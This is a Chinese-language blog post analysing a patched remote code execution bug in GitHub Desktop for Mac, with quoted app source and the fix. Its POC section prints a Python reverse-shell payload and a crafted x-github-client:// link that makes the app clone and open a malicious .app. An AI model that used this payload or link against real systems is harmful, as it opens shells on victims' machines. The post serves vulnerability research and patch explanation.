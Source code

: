 ```yaml
---
layout: post
title: Github Desktop for Mac < 1.3.4 RCE 漏洞分析
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;白天看到老外在H1-702 2018玩的项目，electron的案例不多，感觉有点意思复现下。

> 准备工作：

* https://github.com/desktop/desktop/archive/release-1.3.3.zip
* 恢复下.git/目录以及所需的文件
* yarn install
* yarn build:prod
* mv dist/GitHub Desktop-darwin-x64/GitHub Desktop.app /Applications


> 漏洞成因:

首先github的`Clone or download`按钮包含一个`Open in Desktop`的pull方式

验证时发现目前该方式的协议为`github-mac://`但早起版本的协议应该是`x-github-client://`，并且包含几个参数:

```
x-github-client://openRepo/https://github.com/user/repo?branch=master&filepath=README.md
```

app/src/lib/app-shell.ts

```
export const shell: IAppShell = {
	moveItemToTrash: electronShell.moveItemToTrash,
	beep: electronShell.beep,
	openExternal: path => {
		return new Promise<boolean>((resolve, reject) => {
			ipcRenderer.once(
				'open-external-result',
				(event: Electron.IpcMessageEvent, { result }: { result: boolean }) => {
					resolve(result)
				}
			)

			ipcRenderer.send('open-external', { path })
		})
	},
	showItemInFolder: path => {
		ipcRenderer.send('show-item-in-folder', { path })
	},
	openItem: electronShell.openItem,
}
```

ipcRenderer对象的`showItemInFolder`方法使用`show-item-in-folder`事件发送获取到的path

跟进app/src/main-process/main.ts

```
ipcMain.on(
	'show-item-in-folder',
	(event: Electron.IpcMessageEvent, { path }: { path: string }) => {
		Fs.stat(path, (err, stats) => {
			if (err) {
				log.error(`Unable to find file at '${path}'`, err)
				return
			}

			if (stats.isDirectory()) {
				openDirectorySafe(path)
			} else {
				shell.showItemInFolder(path)
			}
		})
	}
)
```

ipcMain对象监听到该事件消息后，fs库判断下是否为目录，如果是则传进`openDirectorySafe`。但没有考虑到mac系统下.app也是为目录的

```
> fs = require('fs')
> fs.stat('/Applications/GitHub Desktop.app',(err,stats)=>{console.log(stats.isDirectory())})
> true
```

跟进app/src/main-process/shell.ts

```
export function openDirectorySafe(path: string) {
	if (__DARWIN__) {
		const directoryURL = Url.format({
			pathname: path,
			protocol: 'file:',
			slashes: true,
		})

		shell.openExternal(directoryURL)
	} else {
		shell.openItem(path)
	}
}
```

判断如果是mac系统则使用`file://`协议重新构造url，并`shell.openExternal`运行。

> POC:

作者编写的py版本<a target="_blank" href="https://github.com/0xACB/github-desktop-poc">POC</a>，并用Pyinstaller打包了起来

```
import socket,subprocess,os;

os.system("open -a calculator.app")

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("localhost",1337));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

本地监听，浏览器打开包含指定POC APP的链接：

```
x-github-client://openRepo/https://github.com/0xACB/github-desktop-poc?branch=master&filepath=osx/evil-app/rce.app
```

浏览器询问是否使用GitHub Desktop.app打开，确定并开始clone，随后反弹shell。

> Fixed:

fix方式很简单，判断不是mac系统最终才可以打开

```
-        if (stats.isDirectory()) {
+        if (!__DARWIN__ && stats.isDirectory()) {
```